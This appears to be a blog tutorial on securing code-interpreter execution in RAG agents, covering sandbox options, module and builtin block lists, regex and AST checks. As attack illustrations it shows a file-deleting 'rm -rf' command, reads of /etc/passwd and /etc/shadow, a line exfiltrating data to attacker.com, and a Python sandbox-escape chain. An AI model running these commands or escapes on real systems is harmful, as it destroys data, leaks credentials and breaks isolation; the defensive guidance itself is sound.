

# Code Interpreter Security in RAG Systems: From Sandbox Design to Production Implementation

## Why RAG Systems Need a Code Interpreter

Let’s start with the core question: what can a RAG system do, and what can’t it do?

In a typical RAG system, the workflow is:
- Retrieve relevant documents from a vector database
- Generate an answer based on those documents

This works well for **knowledge lookup tasks**.

However, real-world users quickly demand more:

> “I have an Excel file with 100 companies. Analyze their risk distribution and generate a pie chart showing high-risk proportions.”

This requirement cannot be fulfilled by pure RAG.

Why?

Because RAG:
- Does not execute code  
- Cannot process structured data  
- Cannot generate charts  

To complete this task, the system must:
1. Read the Excel file  
2. Parse it into structured data  
3. Generate analysis code  
4. Execute the code  
5. Return visualization results  

This is where a **Code Interpreter** becomes essential.

It upgrades an Agent from:
- “knowledge retrieval” → “data computation and execution”

---

## The Danger of Using `exec()` Directly

A naive implementation might look like:

```python
code = llm.generate(user_request)
exec(code)


This is extremely dangerous.

### Attack Scenario 1: Deleting Server Files

```python
import os
os.system("rm -rf /data/production")
```

This can delete:

* Production databases
* Model files
* User data

---

### Attack Scenario 2: Reading Sensitive Files

```python
passwd = open('/etc/passwd').read()
shadow = open('/etc/shadow').read()
print(passwd)
```

This exposes:

* System user accounts
* Password hashes

---

### Attack Scenario 3: Data Exfiltration

```python
import requests

data = df.to_json()
requests.get('http://attacker.com', params={'data': data})
```

User data is silently sent to an external server.

---

These are not hypothetical—they are real attack surfaces.

**Conclusion:**
Using `exec()` directly in production is unacceptable.

---

## Three Sandbox Design Approaches

### 1. Restricted Python Execution (Low Cost, Medium Security)

Core idea:

* Allow `exec()`, but restrict the execution environment

```python
ALLOWED_MODULES = {'pandas', 'numpy', 'matplotlib'}
FORBIDDEN_BUILTINS = {'exec', 'eval', 'open', '__import__'}

def safe_exec(code):
    safe_globals = {
        '__builtins__': {
            k: v for k, v in __builtins__.items()
            if k not in FORBIDDEN_BUILTINS
        },
        'pd': __import__('pandas'),
        'np': __import__('numpy'),
    }

    exec(code, safe_globals, {})
```

### Limitations

Python can bypass restrictions via object internals:

```python
[].__class__.__bases__[0].__subclasses__()
```

**Not safe for public production systems.**

---

### 2. Docker Isolation (High Security, Higher Latency)

Each execution runs in an isolated container:

```python
container = client.containers.run(
    image='python-sandbox',
    network_disabled=True,
    mem_limit='256m',
    cpu_quota=50000,
    read_only=True,
    remove=True
)
```

#### Security Features

* No network access
* Read-only filesystem
* CPU & memory limits
* Auto cleanup

#### Trade-off

* Startup latency: ~500ms–2s

Solution:

* Use a **pre-warmed container pool**

---

### 3. Cloud Sandbox (e.g., E2B) — Recommended

```python
from e2b_code_interpreter import Sandbox

with Sandbox() as sandbox:
    execution = sandbox.run_code(code)
```

#### Advantages

* Managed security
* Fast startup (~100ms)
* File + chart support

#### Trade-off

* Usage-based cost

---

## Whitelist and Blacklist Design

### Principle: Least Privilege

Only allow what is strictly necessary.

### Allowed Modules

```python
ALLOWED_MODULES = {
    'pandas', 'numpy', 'matplotlib', 'seaborn',
    'json', 'math', 'statistics', 'datetime', 'collections'
}
```

### Forbidden Modules

```python
FORBIDDEN_MODULES = {
    'os', 'sys', 'subprocess', 'socket',
    'requests', 'urllib', 'http', 'ftplib',
    'smtplib', 'pickle', 'ctypes', 'importlib'
}
```

### Forbidden Built-ins

```python
FORBIDDEN_BUILTINS = {
    'exec', 'eval', 'compile', 'open',
    '__import__', 'globals', 'locals',
    'getattr', 'setattr'
}
```

---

## Static Security Checks

```python
DANGEROUS_PATTERNS = [
    r'__subclasses__',
    r'__globals__',
    r'exec\s*\(',
    r'eval\s*\(',
    r'import\s+os'
]
```

Example bypass:

```python
chr(111) + chr(115)  # builds "os"
```

Thus, `chr()` detection is also required.

---

## 8-Step Secure Execution Pipeline

### 1. Load User Data

```python
df = pd.read_excel(file_path)
if len(df) > 10000:
    df = df.head(10000)
```

---

### 2. Constrained Prompt for Code Generation

* Only allow specific libraries
* No file or system access
* Execution under 10 seconds

---

### 3. Static Security Check

```python
is_safe, reason = static_security_check(code)
```

---

### 4. Execute in Sandbox

* Restricted exec / Docker / E2B

---

### 5. Timeout Control

```python
signal.alarm(10)
```

---

### 6. Capture Output

* stdout
* charts (base64)

---

### 7. Cleanup

* Delete temp files
* Destroy container

---

### 8. Return Results

* Text + visualization

---

## Real-World Pitfalls

### Issue 1: Matplotlib Fails on Headless Server

```python
import matplotlib
matplotlib.use('Agg')
```

---

### Issue 2: Large Dataset Timeout

```python
df = df.sample(n=10000)
```

---

### Issue 3: Low-Resolution Charts

```python
plt.rcParams['figure.dpi'] = 150
plt.rcParams['figure.figsize'] = (10, 6)
```

---

### Issue 4: LLM Generates Invalid Code

```python
import ast

ast.parse(code)
```

---

## AST-Based Import Validation

```python
def check_imports(code):
    tree = ast.parse(code)
    for node in ast.walk(tree):
        if isinstance(node, ast.Import):
            ...
```

AST is more reliable than regex-based scanning.

---

## Security Design Summary

A robust system requires layered defense:

1. Prompt constraints
2. Static analysis (regex + AST)
3. Sandbox execution
4. Timeout control

---

## Key Takeaways

* Never use `exec()` directly in production
* Use multi-layer security design
* Prefer whitelist over blacklist
* Use AST over string matching
* Use container or cloud sandbox for production

---

## Final Thoughts

Code Interpreter expands RAG systems from:

* “knowledge retrieval” → “data analysis”

But with greater capability comes greater responsibility.

A secure design ensures:

* No data leakage
* No system compromise
* Reliable production deployment

